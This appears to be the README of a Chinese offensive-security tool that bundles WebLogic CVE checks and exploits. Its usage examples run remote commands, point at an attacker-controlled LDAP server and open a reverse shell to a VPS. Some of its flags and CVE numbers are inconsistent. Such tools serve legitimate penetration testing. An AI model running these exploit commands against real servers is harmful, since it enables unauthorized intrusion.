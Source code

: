 # 👻WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

# 🐳使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
```

+ POC一键检测
```md
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 14882

//cve-2020-2883
//cve-2020-2555
//cve-2016-0638
//cve-2016-0315
//cve-2017-3248
//cve-2018-2628
//cve-2018-2893
//cve-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883

//cve-2020-2889
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c -ri <vps_ip> -rp <VPS_PORT> -e 2889
```

# 👮免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# 📷参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839